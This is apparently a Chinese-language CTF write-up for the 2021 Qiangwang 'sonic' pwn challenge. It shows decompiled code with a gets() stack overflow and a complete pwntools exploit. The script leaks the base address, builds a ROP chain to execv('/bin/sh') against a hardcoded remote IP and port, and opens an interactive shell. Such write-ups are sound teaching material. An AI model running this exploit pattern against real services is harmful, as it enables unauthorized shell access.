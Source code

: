 # 第四届“强网”拟态防御国际精英挑战赛 2021 pwn **sonic**

> challenge name: `sonic`
>
> file: `sonic`
>
> .i64 with comments provided
>
> writeup writer: hexhex16@outlook.com    https://github.com/kokifish

程序可以泄露程序基址，存在栈溢出漏洞，利用程序的gadgets做ROP。程序有execv系统调用，可以通过执行以下指令getshell

```cpp
execv("/bin/sh\x00", NULL); // rdi, rsi
```



# IDA Analysis

- main: 会输出main的地址，可以通过这个得到程序基址

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *argva[4]; // [rsp+10h] [rbp-20h] BYREF

  printf("main Address=%p\n", main);
  makeUserName();
  printf("userName =%s\n", userName);
  argva[0] = loginpath;                         // 字符串数组第一个参数是 文件路径
  argva[1] = userName;                          // 命令参数
  argva[2] = 0LL;                               // execv执行要求这个得是NULL
  execv(loginpath, argva);
  return 0;
}
```

- makeUserName

```cpp
char *makeUserName()
{
  char src[32]; // [rsp+0h] [rbp-20h] BYREF

  printf("login:");
  gets((__int64)src);                           // 溢出点 无输入长度限制
  return strcpy(userName, src);
}
```

makeUserName里面调gets赋值，没有输入长度限制，存在栈溢出漏洞。

main中给出了execv的调用，ROP时可以返回到这里

程序中存在`"/bin/sh"`字符串



# exp

```python
from pwn import *
context.arch = 'amd64'
context.log_level = "debug"
IP = "123.60.63.90"
PORT = 6890
DEBUG = 0


if DEBUG:
    p = process("./sonic")
    # attention: argv[1] for ./pwn when running with ./ld.so ./pwn
    base = p.libs()[p._cwd + p.argv[0].decode().strip('.')]  # fix bytes str error in py3.9
    print("base:", base, p.libs())

else:
    p = remote(IP, PORT)


def ru(x): return p.recvuntil(x)
def se(x): return p.send(x)
def rl(): return p.recvline()
def sl(x): return p.sendline(x)
def rv(x): return p.recv(x)
def sa(a, b): return p.sendafter(a, b)
def sla(a, b): return p.sendlineafter(a, b)
def l64(): return u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))  # python 3.9 pass


def debug(cmd=""):
    gdb.attach(p, cmd)


def dd():
    if DEBUG:
        cmd = ""
        cmd += "b *%d\n" % (base + 0x7B4)
        cmd += "b *%d\n" % (base + 0x7C7)  #
        cmd += "set $a=%d\n" % (base + 0x201040)  #
        cmd += "set $b=%d\n" % (base + 0x201010)  # loginpath
        debug(cmd)


ru("main Address=")
main_addr = int(ru("\n")[:-1], 16)
base_addr = main_addr - 0x7CF
print("main_addr=", type(main_addr), hex(main_addr), hex(base_addr))

# 找gadgets 构造ROP chain
pop_rdi = p64(base_addr + 0x8c3)  # 0x00000000000008c3 : pop rdi ; ret
pop_rsi_pop_r15 = p64(base_addr + 0x8c1)  # 0x00000000000008c1 : pop rsi ; pop r15 ; ret
execv_addr = p64(base_addr + 0x847) # call execv的地址
rbp = p64(0)  # p64(base_addr + 0x201010)
bash_addr = p64(base_addr + 0x201040) # "/bin/sh\x00"的地址
# payload: 令rdi指向"/bin/sh\x00" rsi r15赋值为0，返回地址为execv的地址
payload = b"/bin/sh\x00".ljust(32, b'a') + rbp + pop_rdi + bash_addr + pop_rsi_pop_r15 + p64(0) + p64(0) + execv_addr
# rdi=bash_addr; rsi=0 r15=0, execv("/bin/sh\x00", 0)
dd()
sl(payload)
p.interactive()  # flag{riCGJnvUieCXasPUUiAQ6XzWVdjFJTQB}

```



- 用于验证execv用法的代码：

```cpp
#include <unistd.h>
#include <cstdlib>

int main() {
    char* argv[3];
    argv[0] = NULL;
    execv("/bin/sh", argv);
}
```

